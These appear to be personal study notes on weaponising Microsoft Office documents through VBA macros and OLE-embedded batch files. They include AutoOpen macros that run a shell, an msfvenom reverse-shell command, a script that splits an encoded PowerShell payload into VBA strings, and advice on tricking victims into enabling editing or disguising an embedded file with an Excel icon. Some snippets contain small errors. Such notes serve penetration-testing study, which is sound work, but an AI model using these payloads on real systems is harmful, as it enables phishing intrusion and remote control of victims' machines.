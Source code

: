 
# Macros  
Series of commands and instructions that are grouped together to accomplish a task programmatically.  
- Often used to manage dynamic content and link docs w/ external content.  
- Can be written from scratch in Visual Basic for Applications (VBA)  
	- Fully functional scripting language w/ full access to ActiveX objects & the Windows Script Host (similar to JS in HTML Apps)  

# Preparing the Attack

Consider:
	As malicious macros attacks are well-known, email providers and spam filters often filter out MS Office docs by default.
	- Can't simply send the mal-doc as an attachment.
 
To deliver payload & increase chances the target opens the doc, we could use a pretext & provide the doc in another way (like download link)

## Mark of the Web
If MS Office doc is successfully delivered to the target via email or download link
- File is tagged w/ *Mark of the Web* (MOTW)
	- Will open in *Protected View*
		- Disables all editing and mod settings in the doc & blocks execution of macros or embedded objects.
		- When opened, will show a warning w/ the option to *Enable Editing* (disables Protected View)
	- Not added to files on FAT32 formatted devices
	- Possible to avoid by providing it in container formats (7zip, ISO, IMG, etc)

### To bypass
- Get user to click on the *Enable Editing* button
	- Ex: Blur rest of doc and instruct to click to "unlock" it
- Rely on other macro-enabled MS Office programs that lack Protected View
	- Ex: Microsoft Publisher
		- Less frequently installed

Worse, MS implemented an outright blocking of macros that can only be unlocked by checking *Unblock* under file properties.
![[protected_view.png]]


# Leveraging MS Word Macros







W/in MS Word (likely similar in Excel)  
- Choose VIEW ribbon > Select Macros  
- Type name for macro > Create  
- Doc must be saved as either **.docm** or **.doc** formats.  
	- \*\**Avoid **.docx** format as it doesn't support macros  
  
  
Body of the macro is denoted by keywords _**Sub**_ and _**End Sub**_  
	- Sub procedures are very similar to a Function in VBA  
		- Difference is Sub procedures can't be used in expressions as they don't return any values.  
- _**'**_ = Comments  

```vbscript
Sub AutoOpen()
  
	MyMacro
  
End Sub
  
Sub Document_Open()
  
	MyMacro
  
End Sub
  
Sub MyMacro()
  
	CreateObject("Wscript.Shell").Run "cmd"

End Sub
```
	- AutoOpen() = Executed when a new doc is opened  
	- Document_Open() = Executed when a previously opened doc is reopened  
  
  
Once Doc is saved & reopened, a security warning requests to Enable Content (& effectively run the macros within)  
-  IRL, if the victim doesn't click the _Enable Content_, the attack will fail. So they'll need to be sufficiently encouraged to do so.  
  
  
For another payload (reverse shell), we can execute Metasploit's PS shellcode using a Base64 string.  
  
As VBA has a 255-char limit for literal strings, we'll have to split the commands into multiple lines and concatenate them.  
  
  
New macro (diff Lines 14 & 16):  
```vbscript
Sub AutoOpen()  
  
	MyMacro  
  
End Sub  
  
Sub Document_Open()  
  
	MyMacro  
  
End Sub  
  
	Sub MyMacro()  
	Dim Str As String  
  
	CreateObject("Wscript.Shell").Run Str  
  
End Sub
```


**msfvenom** payload:  
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<local_ip> LPORT=<local_port> -f hta-psh -o /var/www/html/evil.hta
```

  
Using a python script to split up the payload ^:  
```python
str = "powershell.exe -nop -w hidden -e <msfvenom shellcode>"  
  
n = 50  
  
for i in range(0, len(str), n):  
print "Str = Str + " + '"' + str[i:i+n] + '"'
```

 
Updated macro:  
```vbscript
Sub AutoOpen()  
  
	MyMacro  
  
End Sub  
  
Sub Document_Open()  
  
	MyMacro  
  
End Sub  
  
Sub MyMacro()  
	Dim Str As String  
  
	Str = "powershell.exe -nop -w hidden -e <encoded powershell reverse"  
	Str = Str + "shell generated from msfvenom........."  
	...  
	...  
	...  
	Str = Str + "QA=="  
  
	CreateObject("Wscript.Shell").Run "Str"  
  
End Sub
```

  

### Object Linking and Embedding

**OLE** allows for abusing MS Office's document-embedding feature.  
  
**DDE** - Dynamic Data Exhange  
- Allows for the ability to execute arbitrary apps from within Office docs.  
*Patched since Dec 2017  
  
_.bat_ files are an older (still fully functional) format - replaced by VB & PS   
  
First we create the batch script:  
	POC will be to launch a cmd prompt:  
```bash
echo START cmd.exe > launch.bat
```

  
Then insert into a doc:  
- Open Word > Create new doc  
- Insert ribbon > Click on object menu
![[doc-object.png]]

- Create from file > Choose script  
	- Check Display as icon  
	- Change icon...  
		- Navigate to a desired binary  
			- Ex: C\:\\Program Files\\Microsoft Office\\root\\Office 16\\EXCEL  
		- Rename icon
![[doc-fromfile.png]]
	- Batch file is then embedded in the Word doc  
	- Save doc  
  
Once the icon is double clicked & the security warning is accepted, the batch file is launched.   
  
For the real exploit, replace the **cmd.exe** with the **msfvenom** payload ^^  
```powershell
START powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBd......
```

Once the batch file is update, you'll need to re-embed it in the doc.  
  



